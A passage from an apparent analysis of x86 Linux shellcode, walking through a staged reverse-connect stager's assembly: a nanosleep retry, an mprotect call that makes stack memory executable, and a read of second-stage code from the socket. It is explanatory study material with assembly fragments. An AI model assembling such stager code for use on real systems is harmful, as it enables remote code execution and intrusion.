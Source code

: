 Next a `nanosleep(2)` syscall is made. The first step is to PUSH/POP the syscall ID into EAX. `nanosleep(2)` requires two arguments, first a pointer to a 'timespec' struct. Timespec is defined as a dword of seconds and a dword of nanoseconds. These are pushed in reverse order to the stack (5 seconds and zero nanoseconds.) The pointer to this structure is saved to EBX. The second argument required is a memory address where `nanosleep(2)` can write the remaining time if interrupted. The shellcode will not use this and simply empty it with an XOR. 

```nasm
test eax,eax   
jns 0x3        
jmp short 0x6f 
```

Here, if nanosleep returns an error a JMP is taken to an `exit(2)` syscall at the end of the shellcode. If no error is returned JMP to the `XOR EBX, EBX` at the start of the shellcode. 

```nasm
mov dl,0x7      
mov ecx,0x1000  
mov ebx,esp     
shr ebx,byte 0xc
shl ebx,byte 0xc
mov al,0x7d     
int 0x80        
```

This is the JMP target after a successful `connect(2)` call. This makes an `mprotect(2)` call to change the permissions of a block of stack memory. This prepares the memory for a `read(2)` syscall to write the second stage shellcode. The arguments for this call are a pointer to the start of the memory region to alter, the amount of memory to alter, and a unix permission mask.

First the shellcode sets the permission argument, in most cases it's a unix permission mask so DL is set to 7 for read, write, and execute. Then it sets ECX to 0x1000 as the size of the memory region to modify. Then the stack pointer os moved into EBX. There is a SHR and an SHL which drops the right three bytes to the right. Then the shift left drops returns the bits to their initial position but zeroes the bits which were dropped off. 

For example

```
11111111111111111111111111111111
SHR 0x0C
00000000000011111111111111111111
SHL 0x0C
11111111111111111111000000000000
```

Then the syscall ID for `mprotect(2)` is moved into EAX and the syscall is fired. 

```
test eax,eax
js 0x6f     
```
As with the last few calls the return value is tested for signedness and if the call returned a failure JMP to an `exit(2)` syscall. 

```nasm
pop ebx    
mov ecx,esp
cdq        
mov dh,0xc 
mov al,0x3 
int 0x80   
```
